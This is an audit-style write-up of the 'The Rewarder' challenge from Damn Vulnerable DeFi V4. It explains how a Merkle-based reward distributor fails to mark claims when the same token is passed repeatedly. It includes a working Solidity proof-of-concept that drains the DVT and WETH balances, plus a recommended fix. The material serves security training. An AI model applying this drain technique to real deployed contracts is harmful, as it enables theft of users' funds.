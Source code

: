 # Damn Vulnerable DeFi V4 - The Rewarder

## Table of Contents

1. [Introduction](#introduction)
2. [Scope](#scope)
3. [Notes](#notes)
4. [Analysis](#analysis)

## Introduction

A contract is distributing rewards of Damn Valuable Tokens and WETH.

To claim rewards, users must prove they're included in the chosen set of beneficiaries. Don't worry about gas though. The contract has been optimized and allows claiming multiple tokens in the same transaction.

Alice has claimed her rewards already. You can claim yours too! But you've realized there's a critical vulnerability in the contract.

Save as much funds as you can from the distributor. Transfer all recovered assets to the designated recovery account.

## Scope

[Repository](https://github.com/NikolayPIvanov/damn-vulnerable-defi-v4)

- src/the-rewarder/TheRewarderDistributor.sol

## Notes

### Win Condition

- Transfer all the assets to the recovery address
- No restriction on the number of transactions

### Key Takeaway

- The contract uses Merkle Proofs to verify the actor is indeed in a list of addresses to be rewarded for a given amount.
- The contract works with DVT and WETH tokens.
- The function `claimRewards` is used to claim the rewards for both tokens.
- For a list of claims, on each claim request we calculate the word and bit position.
  - This is used because we are using a BitMap in the `distributions`. The word position is used to find the claims and verify that the address did not claim already. This is used in the function `_setClaimed`.
  - If we have claimed already the `currentWord` would be non-zero value and the `newBits` would be non-zero value - returning 1. The comparison would be `1 != 0` which would return `false` from the function.

    ```solidity
    uint256 currentWord = distributions[token].claims[msg.sender][wordPosition];
    if ((currentWord & newBits) != 0) return false;
    ```

  - On the first iteration of the `claimRewards` the if condition is executed without calling `_setClaimed`, on the following the else condition is executed if we pass the same token twice. If we pass two claims for different tokens only the if statement is executed. Let's take a look for Alice's transaction.
    - First Iteration: DVT Claim Verification -> Transfer DVT
    - Second Iteration: WETH Claim Verification -> Mark DVT as claimed -> Mark WETH as claimed -> Transfer WETH.

    ```soldity
    if (address(token) != address(0)) {
        if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
    }
    ```

## Analysis

### [H-1] Rewards can be claimed more than once due to incorrect `_setClaimed` usage

#### Description

A malicious claimer can pass the same claim many times bypassing the `_setClaimed` function
and stealing funds from the contract. This is due to a interesting way of crafting the Claim request.

Moreover, the contract's mechanism of marking the claimed token, where on the next token we mark the previous one, can be easily exploited - failing to mark the already claimed record.

[Likelihood] - High

#### Impact

A malicious actor can steal all of funds from the contract, which is a critical vulnerability.

#### Proof of Concepts

0. From the JSON files we found the index of the player in the list and amount of each token to claim.
1. Setup the `tokensToClaim` with the supported tokens.
2. Load the rewards list for DVT and WETH.
3. Alice already claimed calculate the remaining DVT and determine the claims we need to do for each token.
4. Construct the Claim, setting `batchNumber` to 0 as we want to mark the same index in the BitMap as claimed.
    1. Token Index for DVT is 0 according to the `tokensToClaim`.
    2. Player's index in the lists is 188.
5. Repeat the steps for WETH.
6. Claim the Rewards.
7. Transfer the funds to the Recovery address.

```solidity
function test_theRewarder() public checkSolvedByPlayer {
    // Player (0x44E97aF4418b7a17AABD8090bEA0A471a366305C)

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    uint256 expectedDVTLeft = TOTAL_DVT_DISTRIBUTION_AMOUNT - ALICE_DVT_CLAIM_AMOUNT;
    uint256 dvtClaimAttempts = expectedDVTLeft / PLAYER_DVT_CLAIM_AMOUNT;

    console.log("Claims to be made for DVT: ", dvtClaimAttempts);

    Claim[] memory dvtClaims = new Claim[](dvtClaimAttempts);

    for (uint256 i = 0; i < dvtClaimAttempts; i++) {
        dvtClaims[i] = Claim({
            batchNumber: 0,
            amount: PLAYER_DVT_CLAIM_AMOUNT,
            tokenIndex: 0,
            proof: merkle.getProof(dvtLeaves, 188)
        });
    }

    uint256 expectedWETHLeft = TOTAL_WETH_DISTRIBUTION_AMOUNT - ALICE_WETH_CLAIM_AMOUNT;
    uint256 wethClaimAttempts = expectedWETHLeft / PLAYER_WETH_CLAIM_AMOUNT;

    console.log("Claims to be made for WETH: ", wethClaimAttempts);

    Claim[] memory wethClaims = new Claim[](wethClaimAttempts);

    for (uint256 i = 0; i < wethClaimAttempts; i++) {
        wethClaims[i] = Claim({
            batchNumber: 0,
            amount: PLAYER_WETH_CLAIM_AMOUNT,
            tokenIndex: 1,
            proof: merkle.getProof(wethLeaves, 188)
        });
    }

    distributor.claimRewards({inputClaims: dvtClaims, inputTokens: tokensToClaim});
    distributor.claimRewards({inputClaims: wethClaims, inputTokens: tokensToClaim});

    dvt.transfer(recovery, dvt.balanceOf(address(player)));
    weth.transfer(recovery, weth.balanceOf(address(player)));
}
```

#### Recommended mitigation

The main issue is with `_setClaimed` and the usage. If we can mark the token as claim before transferring it, we can fix this issue. Moreover, the following condition is exploited because the same token can be passed multiple times as claim.

```solidity
if (token != inputTokens[inputClaim.tokenIndex]) {
    ...
}
```

A general refactoring of the claiming part of the function is recommended which follows the CEI pattern.
